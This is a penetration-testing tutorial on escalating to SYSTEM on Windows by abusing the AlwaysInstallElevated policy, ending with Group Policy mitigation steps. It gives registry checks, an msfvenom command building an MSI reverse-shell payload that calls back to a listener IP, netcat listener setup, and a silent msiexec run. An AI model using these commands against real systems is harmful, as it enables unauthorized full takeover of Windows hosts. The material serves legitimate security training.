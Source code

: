 :orphan:
(windows-privilege-escalation-alwaysinstallelevated)=
# Windows Privilege Escalation AlwaysInstallElevated
 
In a privilege escalation attack, Attackers get system access with low privilege and then attempt to gain higher rights to do operations that are restricted to less privileged users. Attackers gain administrative access to the network by exploiting design flaws, programming faults, bugs, and configuration blunders in the operating system and software applications. In this article, we will gain administrative privileges via the misconfigured `AlwaysInstalledElevated` group policy settings. 

Windows operating system includes a Windows Installer engine that uses `MSI` packages to install the software. Windows environments provide a group policy setting that allows a regular user to install a `Microsoft Windows Installer Package` (MSI) with system privileges. This policy is enabled in the Local group policy which directs windows os to use system privileges to install any program on the system.  This setting makes the system vulnerable to privilege escalation attacks as normal users can run the installation with elevated privileges. 

*Note: This option is equivalent to granting full `SYSTEM` rights, which can pose a massive security risk. Microsoft strongly discourages the use of this setting.*

This article assumes that we have already compromised the system and have a meterpreter session. 
`Getuid `

![aie_1](images/aie_1.png)

As we can see that we are logged as a normal user and not an admin. 

To check if this system is vulnerable to the AlwaysInstallElevated privilege escalation attack. Run the following command to query registry keys to check whether the windows installer has elevated privileges or not. 

`reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated`

`reg query HKEY_CURRENT_USER\Software\Policies\Microsoft\Windows\Installer`

![aie_2](images/aie_2.png)

From the above screenshot, the registry named `AlwaysInstallElevated` exists with a `dword` value of `0x1` which means that the AlwaysInstallElevated is enabled both on the `CURRENT USER and LOCAL MACHINE`. 
This vulnerability can be also be verified using `winpeas.exe`. WinPEAS is a script that searches for possible paths to escalate privileges on Windows hosts.
`https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS/winPEASexe`  

`winPEASx64.exe quiet systeminfo`

![aie_3](images/aie_3.png)


## Exploiting via .msi payload

To escalate the privileges, open a new terminal and type the following command to generate an MSI file named `“installer.msi” `using the msfvenom tool. 
```
msfvenom -p windows/x64/shell_reverse_tcp lhost=10.17.2.160 lport=1234 -f msi > installer.msi
lhost : it is listener's IP address
Lport : it is listener port 
```
![aie_4](images/aie_4.png)

Let's upload our MSI file named installer.msi to the target computer using the user's active Meterpreter session. 
`upload <path_to_msi_file>`

![aie_5](images/aie_51.png)

When it successfully uploads, open up the shell by typing shell in meterpreter. Next set up a netcat listener, which will listen for our reverse shell connection when the msi file will be executed by the victim host. 
```
sudo nc -nlvp <listner_port> 
-p : to specify the port to listen on 
-l : to listen for a connection 
-n : to skip the DNS lookup
-v : for verbose mode 
```
![aie_6](images/aie_6.png)

The following command can be used to execute the MSI file on the windows command.  
`msiexec /quiet /qn /i installer.msi`
```
/quiet : quiet mode, this means suppress any messages to the user while installing
/qn : specifies no GUI
/i : specifies normal installation
```
![aie_7](images/aie_7.png)

After the package is installed, the malicious code is run, giving the system `SYSTEM` level access through a reverse shell. 

![aie_8](images/aie_8.png)

Now we have a `SYSTEM` level shell. 

## Mitigation

To mitigate this type of attack, the following steps can be used in `Group Policy editor` to resolve the misconfiguration. 
Configure the policy value to `"Disabled"` for 
`Computer Configuration \Administrative Templates\Windows Components \Windows Installer \"Always install with elevated privileges"` 

![aie_9](images/aie_9.png)

`User Configuration\Administrative Templates\Windows Components\Windows Installer \"Always install with elevated privileges"`

![aie_10](images/aie_10.png)

> **Looking to expand your knowledge of penetration testing? Check out our online course, [MPT - Certified Penetration Tester](https://www.mosse-institute.com/certifications/mpt-certified-penetration-tester.html)**